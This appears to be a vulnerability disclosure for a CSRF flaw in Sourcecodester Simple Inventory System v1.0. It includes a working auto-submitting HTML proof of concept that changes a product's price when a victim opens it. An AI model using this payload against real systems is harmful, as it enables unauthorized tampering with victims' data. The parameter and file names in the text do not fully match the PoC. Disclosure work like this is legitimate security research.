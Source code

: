 ### CSRF vulnerability exists in Sourcecodester Simple Inventory System

official website:https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

version:v1.0

route：/tableedit.php#page=editprice

injection parameter:$_POST['itemnumber']

#### 1.Vulnerability analysis

As shown in the figure below, in tableedit.php, after the front-end sends the modified price data packet through the form form, there is a lack of token verification mechanism, and the back-end updateproduct.php is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.

![image-20240517163532892](SourceCodester Simple Inventory System CSRF.assets/image-20240517163532892.png)

![image-20240517163554229](SourceCodester Simple Inventory System CSRF.assets/image-20240517163554229.png)

#### 2.Vulnerability verification and exploit

The construction poc is as follows. Save it as an html file and send it to the victim to click, so that the product price can be modified.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://10.15.6.184:82/updateprice.php" method="POST">
      <input type="hidden" name="ITEM" value="1" />
      <input type="hidden" name="itemprice" value="888" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image-20240517164018816](SourceCodester Simple Inventory System CSRF.assets/image-20240517164018816.png)

After clicking on the html file, the price is modified to 888.

![image-20240517164148946](SourceCodester Simple Inventory System CSRF.assets/image-20240517164148946.png)